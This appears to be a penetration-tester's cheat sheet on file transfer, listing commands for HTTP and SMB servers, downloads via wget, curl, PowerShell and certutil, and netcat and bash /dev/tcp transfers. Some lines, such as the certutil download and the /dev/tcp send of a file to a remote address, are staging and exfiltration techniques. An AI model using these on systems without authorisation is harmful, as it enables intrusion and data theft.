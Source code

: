 ```yaml
---
icon: arrow-right-arrow-left
---
```


# File Transfer

## Integrity verification

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```batch
md5sum <file>
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```batch
certutil -hashfile <file> md5
```
{% endcode %}
{% endtab %}
{% endtabs %}

## HTTP

### HTTP Server

{% tabs %}
{% tab title="Python3" %}
```
python3 -m http.server <port>
```
{% endtab %}

{% tab title="Python2" %}
```
python2 -m SimpleHTTPServer <port>
```
{% endtab %}

{% tab title="PHP" %}
```
php -S 0:<port>
```
{% endtab %}
{% endtabs %}

### Download

{% tabs %}
{% tab title="Wget" %}
{% code overflow="wrap" %}
```bash
wget <url>
```
{% endcode %}
{% endtab %}

{% tab title="Curl" %}
{% code overflow="wrap" %}
```bash
curl -s <url> -o <output>
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadString('<url>') > <output>
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-WebRequest <url> -o <output>
```
{% endcode %}
{% endtab %}

{% tab title="CMD" %}
{% code overflow="wrap" %}
```batch
certutil -urlcache -split -f <url> <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SMB

### SMB Server

```bash
smbserver.py <share> $(pwd) -smb2support [-username user -password pass]
```

### Download

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```bash
smbclient -U 'user[%pass]' //<ip>/<share> -c "get <file> <output>"
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```powershell
# mount smb Share to drive
net use z: \\<ip>\<share> [/user:user pass]
# copy from share
copy \\<ip>\<share>\<file> <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Netcat

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```bash
nc -nlvp <port> < <file>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```bash
nc -nlvp <port> > <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Bash

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```bash
cat <file> > /dev/tcp/<ip>/<port>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```bash
cat < /dev/tcp/<target>/<port> > <output>
```
{% endcode %}
{% endtab %}
{% endtabs %}
